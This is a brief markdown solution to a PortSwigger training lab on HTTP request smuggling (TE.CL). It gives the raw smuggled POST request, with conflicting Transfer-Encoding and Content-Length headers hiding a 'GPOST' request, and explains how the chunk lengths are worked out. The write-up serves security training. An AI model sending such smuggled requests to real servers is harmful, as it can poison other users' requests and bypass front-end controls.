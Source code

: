 # [Lab: HTTP request smuggling, basic TE.CL vulnerability](https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl)

## Lab

This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. The front-end server rejects requests that aren't using the GET or POST method.

To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST`.

## Characteristics

front-end: TE

back-end: CL

## Solutions

```http
POST /post/comment HTTP/1.1
Content-Length: 4
Transfer-Encoding: chunked

29
GPOST / HTTP/1.1
Content-Length: 20

a
0

```

- 4 is the length of:

  ```http
  29\r\n
  ```

- 29 is the length of:

  ```http
  GPOST / HTTP/1.1\r\n
  Content-Length: 20\r\n
  \r\n
  a
  ```
